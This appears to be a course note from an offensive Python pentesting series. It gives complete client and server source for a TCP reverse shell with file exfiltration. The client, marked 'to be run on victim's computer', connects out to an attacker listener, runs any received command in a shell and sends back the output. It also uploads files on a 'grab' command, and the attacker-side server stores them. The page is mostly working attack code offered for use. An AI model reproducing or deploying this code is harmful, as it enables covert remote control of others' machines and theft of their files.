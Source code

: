```yaml
---
title: Coding a low level data exfiltration - TCP connection
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


# Coding a low level data exfiltration  - TCP connection

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).





## Client

To be run on victim's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2
import socket
import subprocess
import os


# In the transfer function, we first check if the file exists in the first place, if not we will notify the attacker
# otherwise, we will create a loop where each time we iterate we will read 1 KB of the file and send it, since the
# server has no idea about the end of the file we add a tag called 'DONE' to address this issue, finally we close the file
def transfer(s, path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while len(packet) > 0:
            s.send(packet)
            packet = f.read(1024)
        s.send('DONE'.encode())
    else:
        s.send('File not found'.encode())
def connecting():
    s = socket.socket()
    s.connect(("10.0.2.15", 8080))

    while True:
        command = s.recv(1024)

        if 'terminate' in command.decode():
            s.close()
            break


# if we received grab keyword from the attacker, then this is an indicator for file transfer operation, hence we will split the received commands into two parts, the second part which we intersted in contains the file path, so we will store it into a varaible called path and pass it to transfer function
         
# Remember the Formula is  grab*<File Path>
# Absolute path example:  grab*C:\Users\Hussam\Desktop\photo.jpeg
        elif 'grab' in command.decode():
            grab, path = command.decode().split("*")
            try:
                transfer(s, path)
            except:
                pass
        else:
            CMD = subprocess.Popen(command.decode(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,stdin=subprocess.PIPE)
            s.send(CMD.stderr.read())
            s.send(CMD.stdout.read())
def main():
    connecting()
main()

```

### Server 

To be run on attacker's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2
import os
import socket

def transfer(conn, command):
    conn.send(command.encode())
    grab, path = command.split("*")
    f = open('/home/kali/'+path, 'wb')
    while True:
        bits = conn.recv(2048)
        if bits.endswith('DONE'.encode()):
            f.write(bits[:-4]) # Write those last received bits without the word 'DONE' 
            f.close()
            print ('[+] Transfer completed ')
            break
        if 'File not found'.encode() in bits:
            print ('[-] Unable to find out the file')
            break
        f.write(bits)
def connecting():
    s = socket.socket()
    s.bind(("10.0.2.15", 8080))
    s.listen(1)
    print('[+] Listening for income TCP connection on port 8080')
    conn, addr = s.accept()
    print('[+]We got a connection from', addr)

    while True:
        command = input("Shell> ")
        if 'terminate' in command:
            conn.send('terminate'.encode())
            break
        elif 'grab' in command:
            transfer(conn, command)
        else:
            conn.send(command.encode())
            print(conn.recv(1024).decode())
def main():
    connecting()
main()

```

## Using pyinstaller

See [pyinstaller](../pyinstaller.md).